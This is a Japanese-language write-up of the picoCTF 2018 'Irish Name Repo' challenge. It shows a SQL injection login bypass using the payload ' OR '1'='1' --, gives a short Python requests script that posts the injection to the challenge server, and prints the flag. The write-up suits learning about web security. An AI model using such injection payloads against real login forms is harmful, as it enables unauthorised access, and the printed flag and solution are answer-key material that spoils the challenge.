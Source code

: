 # Irish Name Repo

## Solve
```
There is a website running at http://2018shell.picoctf.com:59464 (link). 
Do you think you can log us in? 
Try to see if you can login!
```

## Hint
```
There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?
```

<br>


## Solution

![1](https://user-images.githubusercontent.com/47602064/83484447-eda69100-a4df-11ea-84bf-44da432bf611.png)

問題に移動すると何かのサイトが表示されました。

左上のボタンと押すと他のページがあることがわかります。

試しに`Support`ページに移動すると以下が表示されました。

![2](https://user-images.githubusercontent.com/47602064/83581447-c9978e00-a579-11ea-9a8f-9d8b4de2b29c.png)

```txt
Cannot add name
Hi. I tried adding my favorite Irish person, Conan O'Brien. But I keep getting something called a SQL Error
That's because Conan O'Brien is American.
Admin
```

以上のコメントよりloginページではSQLが使われていることが考えられます。

<br>

次に`Admin Login`ページに移動するとユーザー名とパスワードの入力欄があります。

![3](https://user-images.githubusercontent.com/47602064/83581498-efbd2e00-a579-11ea-859d-c05dc2d80a0b.png)


単純にSQLiをしてみます。

ユーザー名に`' OR '1'='1' --`と入力すると以下のように表示されました。

![4](https://user-images.githubusercontent.com/47602064/83581599-3f035e80-a57a-11ea-8282-b5212db25594.png)

`Your flag is: picoCTF{con4n_r3411y_1snt_1r1sh_d121ca0b}`

するとflagが表示されました。

<br>

Pythonでflagを得る場合は以下のようなプログラムで綺麗にflagを得ることが出来ます。

```python
#!/usr/bin/python

import requests
import re

params = {'username': "' OR 1=1 --", 'password': '', 'debug': 0}

r = requests.post('http://2018shell1.picoctf.com:59464/login.php', data=params)
source = r.text
print re.findall(r'(picoCTF\{.+\})', source)[0]
```

<br><br>

## FLAG: picoCTF{con4n_r3411y_1snt_1r1sh_d121ca0b}
